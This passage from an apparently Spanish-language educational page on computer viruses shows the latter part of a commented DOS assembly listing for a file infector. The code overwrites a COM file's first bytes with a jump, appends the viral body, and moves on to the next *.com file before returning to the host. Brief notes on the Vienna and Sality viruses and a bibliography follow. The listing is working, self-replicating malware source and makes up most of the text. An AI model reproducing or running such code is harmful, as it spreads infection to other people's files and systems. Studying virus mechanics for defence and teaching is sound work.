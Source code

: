                 mov ax, 4200h                         ; | AX = 4200h (principio del archivo)  
                xor cx, cx                            ; | CX = 0  
                xor dx, dx                            ; | DX = 0  
                int 21h                               ; |_DOS API - Establecer puntero en archivo 
                
                jc close_file                         ; no se puede trabajar con el archivo, cerrarlo
                
                mov ax, word ptr [ds:9Ah]             ; calcular el largo del JMP para el cabezal viral, DTA+1Ah=9Ah (FileSize)  
                sub ax, 3                             ; restarle 3 bytes del near JMP
                
                mov byte ptr [bp + tmp_head], 0E9h    ; construir cabezal viral en buffer temporal (E9h = near JMP)  
                mov word ptr [bp + tmp_head + 1], ax
                
                mov ah, 40h                           ; | AH = 40h  
                mov cx, 3                             ; | CX = tamaño del cabezal, 3 bytes  
                lea dx, [bp + tmp_head]               ; | DS:DX -> origen: buffer temporal para cabezal viral  
                int 21h                               ; |_DOS API - Escribir en archivo/dispositivo 
                
                jc close_file                         ; no se puede trabajar con el archivo, cerrarlo
                
                mov ax, 4202h                         ; | AX = 4202h (fin del archivo)  
                xor cx, cx                            ; | CX = 0  
                xor dx, dx                            ; | DX = 0  
                int 21h                               ; |_DOS API - Establecer puntero en archivo 
                
                jc close_file                         ; no se puede trabajar con el archivo, cerrarlo
                
                mov ah, 40h                           ; | AH = 40h  
                mov cx, virus_size                    ; | CX = tamaño del virus  
                lea dx, [bp + body]                   ; | DS:DX -> origen: inicio del código viral  
                int 21h                               ; |_DOS API - Escribir en archivo/dispositivo

 close_file:    mov ah, 3Eh                           ; | AH = 3Eh  
                int 21h                               ; |_DOS API - Cerrar archivo

                jnc find_next                         ; si CF=0, buscar siguiente archivo 

       exit:    mov cx, 0100h  
                jmp cx                                ; saltar a CS:0100 y ejecutar huésped

  search_str    db "*.com", 00h                       ; nombre comodín de búsqueda  
   host_head    db 90h, 90h, 90h                      ; buffer para cabezal original  
  virus_size    equ ($ - body)                        ; tamaño del virus  
    tmp_head    db 3 dup (?)                          ; buffer temporal para el cabezal viral

       virus    ends  
         end    start  
{% endhighlight %}

## Casos reales
* El virus *Vienna* fue aislado por primera vez en Abril de 1988 en Moscú. Se trata de un virus
  no residente, infector de archivos *COM* por acción directa. Como su código fuente se hizo
  público, aparecieron muchas variantes del mismo.
* La familia de virus *Sality* es un ejemplo moderno de virus polimórficos que infectan archivos
  ejecutables de Windows con extensión *.exe* o *.scr*. Desde su descubrimiento inicial, las
  variantes de esta familia se han vuelto más sofisticadas.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 